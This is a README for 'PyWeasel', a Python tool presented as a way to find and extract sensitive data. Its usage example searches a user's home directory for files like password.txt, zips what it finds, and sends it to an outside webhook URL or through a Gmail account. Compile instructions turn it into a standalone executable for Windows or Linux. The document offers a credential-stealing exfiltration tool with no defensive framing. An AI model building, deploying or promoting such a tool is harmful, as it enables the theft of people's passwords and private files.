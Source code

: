 <p align="center">
  <img width="460" src="https://i.ibb.co/jy7QPYW/weasel-cartoon-119631-230.png">
</p>

# PyWeasel

PyWeasel is a Python software to help you to find and extract sensitive data.

## Installation

Use the package manager [pip](https://pip.pypa.io/en/stable/) to install PyWeasel.

```bash
python -m pip install pip --upgrade --user
pip install --user pipenv
pipenv install
pipenv shell
```

## Usage

```
Example : ./pyweasel.bin --url=https://your_workflow.m.pipedream.net --input-file=lin_list.txt --search_files=password.txt,csv --path="home/user/" --interactive=True --email="xxxx@gmail.com" --password="password" --zip=True

--url
        Url parameter for http server
--input-file
        File with the list of files or extension to search
--search-files
        File extension to find ('txt') or filename to find ('secret.txt')
--contains-text
        Text contains in filename
--path
        Base directory to find files
--interactive
        Launch script interactive
--email
        Gmail email
--password
        Gmail password
--zip
        Zip files found in csv
```

## Compiling
To compile, first add nuitka when you are in `pipenv shell`

```bash
python -m pip install nuitka
```

After this, use command appropriate to your env.

### Windows
```bash
python -m nuitka --onefile --windows-onefile-tempdir pyweasel.py
```

### Linux
```bash
python -m nuitka --onefile pyweasel.py
```


## Contributing
Pull requests are welcome. For major changes, please open an issue first to discuss what you would like to change.

Please make sure to update tests as appropriate.